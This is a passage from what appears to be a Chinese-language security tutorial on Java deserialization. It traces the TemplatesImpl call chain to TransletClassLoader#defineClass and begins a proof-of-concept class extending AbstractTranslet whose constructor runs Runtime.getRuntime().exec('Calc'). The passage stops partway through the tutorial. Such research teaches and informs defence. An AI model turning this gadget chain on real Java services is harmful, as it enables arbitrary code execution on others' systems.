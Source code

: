 下面我们逐一讲解

### 1. 尾部链子 ———— 利用 TemplatesImpl 动态加载字节码

- 我们先跟进 TemplatesImpl 这个包中看 TemplatesImpl 的结构图

![img](https://drun1baby.top/2022/07/12/CommonsBeanUtils%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/TemplateImplBag.png)

可以看到在 `TemplatesImpl` 类中还有一个内部类 `TransletClassLoader`，这个类是继承 `ClassLoader`，并且重写了 `defineClass` 方法。

![img](https://drun1baby.top/2022/07/12/CommonsBeanUtils%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/TemplateImplCode.png)

- 简单来说，这里的 `defineClass` 由其父类的 protected 类型变成了一个 default 类型的方法，可以被类外部调用。

我们从 `TransletClassLoader#defineClass()` 向前追溯一下调用链：

JAVA

```
TemplatesImpl#getOutputProperties() -> TemplatesImpl#newTransformer() ->

TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses()

-> TransletClassLoader#defineClass()
```

追到最前面两个方法 `TemplatesImpl#getOutputProperties()` 和 `TemplatesImpl#newTransformer()` ，这两者的作用域是public，可以被外部调用。

我们尝试用 `TemplatesImpl#newTransformer()` 构造一个简单的 POC

首先先构造字节码，注意，这里的字节码必须继承`AbstractTranslet`，因为继承了这一抽象类，所以必须要重写一下里面的方法。

JAVA

```
package src.DynamicClassLoader.TemplatesImplClassLoader;  
  
import com.sun.org.apache.xalan.internal.xsltc.DOM;  
import com.sun.org.apache.xalan.internal.xsltc.TransletException;  
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;  
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;  
  
import java.io.IOException;  
  
// TemplatesImpl 的字节码构造  
public class TemplatesBytes extends AbstractTranslet {  
    public void transform(DOM dom, SerializationHandler[] handlers) throws TransletException{}  
    public void transform(DOM dom, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException{}  
    public TemplatesBytes() throws IOException{  
        super();  
 Runtime.getRuntime().exec("Calc");  
 }  
}
```
